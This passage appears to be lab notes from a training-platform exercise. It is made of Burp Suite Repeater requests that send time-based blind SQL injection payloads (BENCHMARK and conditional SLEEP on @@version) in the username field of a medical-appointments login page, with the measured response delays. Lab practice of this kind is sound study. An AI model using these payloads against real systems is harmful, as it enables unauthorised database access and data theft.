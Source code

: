`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR BENCHMARK(10000000,MD5('hello'))#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

4,013 millis
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR IF(MID(@@version,1,1)='5',SLEEP(1),1)='2'#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

1,290 millis
```